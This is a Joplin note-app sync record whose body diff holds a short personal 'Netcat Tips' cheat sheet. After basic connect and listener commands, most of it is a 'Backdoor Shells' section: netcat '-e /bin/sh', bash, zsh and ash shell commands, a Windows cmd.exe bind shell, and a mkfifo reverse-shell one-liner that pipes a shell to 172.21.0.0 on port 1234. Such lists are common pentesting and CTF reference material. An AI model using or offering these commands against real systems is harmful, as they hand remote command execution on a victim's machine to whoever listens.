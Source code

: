 id: a7f19e20c7fd41959a94ac3580382233
parent_id: 
item_type: 1
item_id: 62728fb045964f75b84bf66d2cd46ed1
item_updated_time: 1642340198245
title_diff: "[{\"diffs\":[[1,\"Netcat Tips\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":11}]"
body_diff: "[{\"diffs\":[[1,\"## Fundamentals:\\\n\\\nConnect to a netcat client:\\\n\\\n- rlwrap nc \\\\[IP Address\\\\] \\\\[port\\\\]\\\n\\\nConnect to a netcat Listener:\\\n\\\n- rlwrap nc -lvp \\\\[Localport\\\\]\\\n\\\nMore info on rlwrap: https://linux.die.net/man/1/rlwrap\\\n\\\n## Backdoor Shells:\\\n\\\nLinux:\\\n\\\n- rlwrap nc \\\\[Your IP Address\\\\] -e /bin/sh\\\n- rlwrap nc \\\\[Your IP Address\\\\] -e /bin/bash\\\n- rlwrap nc \\\\[Your IP Address\\\\] -e /bin/zsh\\\n- rlwrap nc \\\\[Your IP Address\\\\] -e /bin/ash\\\n\\\nWindows:\\\n\\\n- rlwrap nc -lv \\\\[localport\\\\] -e cmd.exe\\\n\\\nLinux netcat reverse shell:\\\n\\\n- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":570}]"
metadata_diff: {"new":{"id":"62728fb045964f75b84bf66d2cd46ed1","parent_id":"bd131b1dd5da4be4980226b78a256de0","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1614222309339,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-28T08:39:15.708Z
created_time: 2022-01-28T08:39:15.708Z
type_: 13